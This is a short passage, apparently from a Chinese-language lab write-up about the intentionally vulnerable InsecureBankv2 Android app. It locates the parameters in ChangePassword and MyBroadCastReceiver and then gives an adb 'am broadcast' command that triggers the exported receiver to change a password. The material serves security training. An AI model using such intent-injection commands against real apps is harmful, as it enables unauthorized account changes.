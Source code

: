   - 在**ChangePassword**中找到传递的参数

    ![](images/BroadcastReceivers-find-2.png)

  - 在**MyBroadCastReceiver**中找到参数传递语句

    ![](images/BroadcastReceivers-find-3.png)

- 利用漏洞

  ```bash
  # 进入adb shell
  adb shell
  
  # 发送命令
  am broadcast -a theBroadcast -n com.android.insecurebankv2/com.android.insecurebankv2.MyBroadCastReceiver --es phonenumber 5554 --es newpass Dinesh@123!
  ```
